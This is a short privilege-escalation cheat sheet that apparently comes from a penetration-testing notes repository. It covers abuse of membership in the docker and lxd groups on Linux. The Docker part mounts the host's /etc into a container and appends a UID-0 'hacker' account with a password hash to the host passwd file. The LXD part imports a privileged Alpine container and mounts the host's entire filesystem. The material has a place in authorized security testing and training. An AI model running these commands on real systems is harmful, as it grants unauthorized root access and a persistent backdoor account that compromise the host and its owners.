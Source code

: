 ## Containers

### Docker
Check if the user is part of the `docker` group.

Basic Docker commands.
```bash
#view a list of all images on the system
docker image ls

#run a docker container and run a single command inside that container
docker run [image] [command]

#get an interactive shell on a Docker container to run multiple commands
docker container run -it [image] /bin/bash
```

Mount the host filesystem into a container.
```bash
#mount /etc to a docker container and add a new user to the Docker host system
docker run -v /etc:/mnt -it [image]
cd /mnt
echo 'hacker:$5$salt$Gcm6FsVtF/Qa77ZKD.iwsJlCVPY0XSMgLJL0Hnww/c1:0:0:root:/root:/bin/bash' >> passwd
```

### LXC/LXD
Check if the user is part of the `lxd` group, and if so, mount the host filesystem into a container.

On the attacker machine, clone the LXD Alpine builder repository and run the script to build the latest Alpine image.
```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
./build-alpine
```

Transfer the tar file containing the image to the target host.

LXD initialization process may need to be started, select all default options, except for storage backend which should be "dir".
```bash
lxc init
```

Import the tar Alpine image into LXC, verify it has been imported, and assign security privileges.
```bash
lxc image import [image filename] --alias myimage
lxc image list
lxc init myimage shell -c security.privileged=true
```

Mount the full disk of the host machine to /mnt/root.
```bash
lxc config device add shell mydevice disk source=/ path=/mnt/root recursive=true
```
